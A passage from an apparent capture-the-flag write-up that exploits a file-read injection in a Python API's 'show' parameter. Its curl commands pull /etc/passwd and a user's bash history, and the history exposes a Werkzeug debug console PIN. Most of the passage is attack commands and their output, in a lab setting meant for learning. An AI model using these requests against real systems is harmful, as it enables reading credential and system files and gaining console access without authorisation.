It looks like the show parameter might be vulnerable to injection.

---

## Testing for Injection
The show parameter is vulnerable to injected, allowing arbitrary file reads

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/etc/passwd                                               
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

Pulling ```Sid's``` bash history to reveal the PIN ```123-321-135``` allowing access to the console.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/.bash_history
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```
